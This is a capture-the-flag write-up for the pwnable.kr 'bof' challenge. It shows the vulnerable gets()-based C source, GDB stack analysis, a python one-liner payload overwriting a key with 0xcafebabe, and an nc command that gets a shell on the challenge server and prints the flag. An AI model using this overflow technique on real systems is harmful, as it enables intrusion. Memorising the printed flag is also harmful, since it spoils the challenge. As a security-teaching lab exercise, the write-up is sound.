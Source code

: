 # bof

Source code ([Link to binary](http://pwnable.kr/bin/bof)):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

If you are running a 32-bit machine, you will not have any problems running the binary as the binary is compiled for 32-bit machines.

```bash
$ file bof
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

For the users on 64-bit machines, you follow the solution mentioned [here](https://askubuntu.com/a/454254) to run the 32-bit binaries on 64-bit machines.

As evident from the source code, it is clear that we have to overflow the `overflowme buffer` and pass the `if confition` on line number 8.

If we try to go the usual route and try overflowing this binary by passing in a large value to check if it segfaults, we get the following:

```bash
$ ./bof
overflow me : 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

We can inspect the reason for this by checking the output of `checksec` utility which states what all binary protection mechanisms are applied on this binary.

```bash
$ checksec --file ./bof
```

![1561208118894](assets/1561208118894.png)

As we can see all the binary protection mechanisms are applied over this binary, we have to search for another route.

Lets hop into GDB and see exactly how far is the value of key from the buffer and try overwriting the value of key.

```assembly
gef➤  disas func
Dump of assembler code for function func:
   0x0000062c <+0>:		push   ebp
   0x0000062d <+1>:		mov    ebp,esp
   0x0000062f <+3>:		sub    esp,0x48
   0x00000632 <+6>:		mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
```

Lets set a breakpoint at `func+40` and see the values int the stack (`x/30hwx $esp`) once we have send in `A*32` as our input.

```assembly
gef➤  x/30hwx $esp
0xffffd100:	0xffffd11c	0xffffd204	0xf7fb6000	0x00000000
0xffffd110:	0x00000000	0xf7fb6000	0xf7e0fb39	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd130:	0x41414141	0x41414141	0x41414141	0xbec6ed00
0xffffd140:	0x0000000d	0x56556ff4	0xffffd168	0x5655569f
0xffffd150:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd160:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7df8751
0xffffd170:	0x00000001	0xffffd204
```

As we can see, the value of `0xdeadbeef (key)` is at `0xffffd150`,  52 bytes away from the starting of buffer `overflowme`, thus to bypass the comparison at line 8, we have to create a payload which consists of 52 junk bytes and `0xcafebabe` as last 4 bytes.

> **NOTE**: We willll have to pass the value `0xcafebabe` in little `endian format` along with other values.

```python
>>> import struct
>>> struct.pack("<I", 0xcafebabe)
b'\xbe\xba\xfe\xca'
```

Payload can be generated using the following in-line python command:

```python
python -c 'print("A"*52 + "\xbe\xba\xfe\xca")' > /tmp/input
```

Lets give this a try in GDB and see if we were able to achieve the results we were after.

```assembly
gef➤  r < /tmp/input
Starting program: /home/jtnydv/pwnable.kr/bof/bof < /tmp/input
overflow me : 
...
gef➤  x/30hwx $esp
0xffffd100:	0xffffd11c	0xffffd204	0xf7fb6000	0x00000000
0xffffd110:	0x00000000	0xf7fb6000	0xf7e0fb39	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd130:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd140:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd150:	0xcafebabe	0x00000000	0x565556b9	0x00000000
0xffffd160:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7df8751
0xffffd170:	0x00000001	0xffffd204
```

As it is clear from the output of examine command we have successful overwritten the value at `0xffffd150` with `0xcafebabe`. Thus our payload works, now we can use this payload to actually get a shell on the remote server using the following command:

```bash
$ (cat /tmp/input; cat) | nc pwnable.kr 9000
$ ls -al
total 496
drwxr-x---   3 root bof    4096 Oct 23  2016 .
drwxr-xr-x 114 root root   4096 May 19 15:59 ..
d---------   2 root root   4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof    7348 Sep 12  2016 bof
-rw-r--r--   1 root root    308 Oct 23  2016 bof.c
-r--r-----   1 root bof      32 Jun 11  2014 flag
-rw-------   1 root root 467454 Jun 22 09:17 log
-rw-r--r--   1 root root      0 Oct 23  2016 log2
-rwx------   1 root root    760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :) # FLAG
```

![1561209485688](assets/1561209485688.png)

